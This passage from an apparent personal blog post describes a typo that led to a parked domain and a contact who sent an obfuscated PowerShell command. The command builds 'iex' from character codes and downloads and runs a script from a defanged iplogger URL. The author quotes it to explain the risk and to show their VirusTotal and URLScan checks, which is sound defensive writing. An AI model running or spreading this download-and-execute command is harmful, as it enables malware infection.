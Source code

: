 
This typo redirected my contact to a sketchy parked domain:
`hxxp://ww1[.]guthub[.]io`. If the link with the typo is clicked multiple times,
each redirect may be to a different target site.

A _parked domain_ is one that has been registered but is not actively used; it
often displays placeholder pages or advertisements. That alone was concerning
enough; but it did not stop there. In the same conversation, they replied with
a PowerShell command that looked suspiciously like something out of a
hacking/CTF challenge:


```powershell
powershell -c "$e=[char]0x69+[char]0x65+[char]0x78;$u=[uri]'hxxps://iplogger[.]co/2y14e7.avi';&($e)(iwr $u)"
```
{: .nolineno }




> Note that I have also defanged the URI in the PowerShell command above for the
> same reasons previously mentioned; only here it is arguably more important.
{: .prompt-warning }


This command attempts to download and run a script from a remote site; a common
technique used by attackers to infect machines or steal information.

**What does this mean?**

- The command builds the word `iex` (short for `Invoke-Expression`), which tells
  PowerShell to execute code it downloads.
- It then tries to download a file from a suspicious URL and run it immediately.
- If run, this could allow an attacker to take control of the system or spy on
  activity.

Was this a joke? A test? Or a genuine attempt to download malware? The
uncertainty was deeply uncomfortable.

## What I Thought Might Have Happened

- Did the typoed domain automatically execute a harmful payload?
- Did I unknowingly send a malicious script?
- Was my contact tricked into running a remote PowerShell command?

Thankfully, **none of those things actually happened**. After some
investigation:

- [x] The URL led to a parked page with no active malicious code
- [x] VirusTotal flagged the link as clean (0/94 detections), as did URLScan
- [x] No alarming results from a google search although the redirects may be too
      numerous to research in just a hour or so.
- [x] There was no evidence of automatic downloads or script execution

![URLScan.io results of a malicious URL](urlscan_results.webp){: width="700" height="400" }
_Results from URLScan.io on the potentially malicious URL_

